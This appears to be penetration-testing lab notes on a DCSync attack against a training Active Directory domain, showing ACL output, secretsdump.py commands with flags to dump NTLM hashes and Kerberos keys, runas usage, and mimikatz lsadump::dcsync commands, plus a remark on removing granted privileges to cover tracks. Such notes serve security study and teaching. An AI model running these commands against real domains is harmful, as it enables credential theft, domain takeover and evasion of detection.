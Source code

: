``` PowerShell

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
......[SNIP]......
```

If we had certain rights over the user `adunn` (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

---
#### DCSync attack with secretsdump

``` bash
$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@<DC_IP>
$ ls inlanefreight_hashes*

inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```

- `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.
- `-just-dc-ntlm` flag if we only want NTLM hashes.
- `-just-dc-user INLANEFREIGHT/adunn` to only extract data for a specific user.
- `-pwd-last-set` to see when each account's password was last changed
- `-user-status` flag to check and see if a user is disabled.

`secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync.

---
#### DCSync attack with mimikatz

Using Mimikatz, we must target a specific user.
Here we will target the built-in administrator account.

Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:
``` CMD
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

From the newly spawned powershell session, we can perform the attack:

``` PowerShell
PS C:\> .\mimikatz.exe
mimikatz # privilege::debug
# Dump one user hash
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
# Dump all hashes to a CSV
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /all /csv
```
